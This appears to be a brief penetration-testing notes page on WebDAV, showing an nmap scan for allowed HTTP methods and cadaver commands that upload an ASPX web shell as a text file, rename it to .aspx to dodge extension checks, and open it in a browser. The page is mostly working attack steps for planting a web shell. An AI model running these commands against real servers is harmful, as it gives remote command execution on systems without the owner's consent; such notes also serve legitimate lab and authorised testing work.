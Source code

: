 # WebDAV

## Tools

### nmap

```bash
nmap <IP> --script=http-webdav-scan
# Check for the HTTP Methods especially for PUT
```

### cadaver

```bash
cadaver <IP>
dav:/> put /usr/share/webshells/aspx/cmdasp.aspx awen.txt  # Example uploading shell
dav:/> mv awen.txt awen.aspx  # Change the file type of the uploaded file
# Navigate to the awen.aspx file in the browser
```
